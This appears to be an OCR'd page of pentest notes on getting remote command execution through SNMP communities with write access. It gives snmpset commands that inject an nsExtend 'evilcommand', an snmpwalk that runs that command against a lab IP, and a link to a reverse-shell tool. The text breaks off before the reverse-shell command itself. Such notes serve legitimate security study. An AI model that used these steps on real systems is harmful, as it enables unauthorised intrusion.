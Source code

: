  - snmp-config.xml

## SNMP RCE

### SNMP can be exploited by an attacker if the administrator overlooks its default configuration on the device or server. By abusing SNMP community with write permissions (rwcommunity) on a Linux operating system, the attacker can execute commands on the server.

#### 1) Extending services with additional commands

### To extend SNMP services and add extra commands, it is possible to append new rows to the "nsExtendObjects" table. This can be achieved by using the snmpset command and providing the necessary parameters, including the absolute path to the executable and the command to be executed:

snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \

'nsExtendStatus."evilcommand"' = createAndGo \

'nsExtendCommand."evilcommand"' = /bin/echo \

'nsExtendArgs."evilcommand"' = 'hello world'

#### 2) Injecting commands for execution

### Injecting commands to run on the SNMP service requires the existence and executability of the called binary/script. The NET-SNMP-EXTEND-MIB mandates providing the absolute path to the executable.

### To confirm the execution of the injected command, the snmpwalk command can be used to enumerate the SNMP service. The output will display the command and its associated details, including the absolute path:

 - snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects

#### 3) Running the injected commands

### When the injected command is read, it is executed. This behavior is known as run-on-read() The execution of the command can be observed during the snmpwalk read.

## Shell with SNMP https://github.com/mxrch/snmp-shell

### Alternatively, a reverse shell can be manually created by injecting a specific command into SNMP. This command, triggered by the snmpwalk, establishes a reverse shell connection to the attacker's machine, enabling control over the victim machine. You can install the pre-requisite to run this:
